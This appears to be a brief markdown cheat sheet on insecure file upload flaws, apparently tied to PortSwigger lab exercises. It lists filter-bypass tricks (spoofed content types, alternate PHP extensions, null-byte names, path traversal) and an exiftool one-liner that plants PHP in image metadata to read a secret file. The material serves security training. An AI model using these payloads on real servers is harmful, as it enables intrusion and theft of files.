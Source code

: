 # Insecure File upload

## Definition

**Insecure file upload** refers to a vulnerability in a computer system that allows unauthorized users to upload files to the system. This can be a serious security risk because it can allow attackers to upload malicious files, such as viruses or malware, that can compromise the security of the system. To prevent insecure file uploads, it is important to implement appropriate security measures, such as file type restrictions and authentication checks, to ensure that only authorized users are able to upload files.

## Cheathsheet

- Upload basic php file
- Change PHP content type to `Content-Type: image/jpeg`
- Path traversal in filename `../read_carlos_secret.php` or `..%2Fread_carlos_secret.php`
- Bypass PHP file extension filter `php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, ...`
- Other bypass `.pHp, .png.php`, `.php%00.png`, ...
- Add PHP in image metadata : `exiftool -Comment='<?php echo "AAAA-"; echo file_get_contents("/home/carlos/secret"); echo "-BBBB"; ?>' toto.png.php`
- Uploading files using PUT
- Polyglot file [PHAR/JPEG generator](https://gitlab.com/xanhacks/phar-jpg-polyglot/)

## References

- [PortSwigger - File upload](https://portswigger.net/web-security/file-upload)